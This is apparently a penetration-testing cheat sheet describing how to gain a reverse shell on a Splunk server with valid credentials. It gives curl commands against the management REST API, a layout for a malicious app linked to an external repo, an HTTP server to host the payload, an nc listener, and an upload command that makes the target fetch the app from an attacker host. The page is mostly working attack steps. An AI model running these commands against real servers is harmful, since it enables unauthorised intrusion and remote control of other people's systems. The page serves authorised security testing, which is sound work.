 # splunk

## splunk app: reverse shell

Prerequisite: user:password

Steps:

1. Find the endpoint

        $ curl -k -X GET -u <user>:<password> https://<ip>:8089/services/apps/
        <?xml version="1.0" encoding="UTF-8"?>
            <generator build="XXX" version="8.0.5"/>
            <author>
              <name>Splunk</name>
            </author>
            ...
            <link href="/services/apps//local/_new" rel="create"/>
            <link href="/services/apps//local" rel="list"/>
            <link href="/services/apps//local/_reload" rel="_reload"/>
            ...

        $ curl -k -X GET -u <user>:<password> https://<ip>:8089/services/apps//local/_new
        <?xml version="1.0" encoding="UTF-8"?>
            ...
            <s:key name="write">
              <s:list>
                <s:item>admin</s:item>
                <s:item>splunk-system-role</s:item>
              </s:list>
            </s:key>
            ...

2. Define the app

        # https://github.com/binarytrails/pentest/tree/master/src/exploits/multiple/splunk/splunk_app_rshell
        splunk_app_rshell/
        ├── bin
        │   └── code.py
        └── default
            └── inputs.conf

3. Start listeners

    python -m http.server 8080  # to deliver the app.tar.gz
    nc -l -v -p 6666            # for a reverse shell connection

4. Upload the app

    $ tar -zcvf splunk_app.tar.gz ./splunk_app_rshell
    $ curl -k -X POST -u <user>:<password> https://<ip>:8089/services/apps//local \
        -d filename=True \
        -d name=http://<attacker-ip>:8080/splunk_app.tar.gz \
        -d visible=True

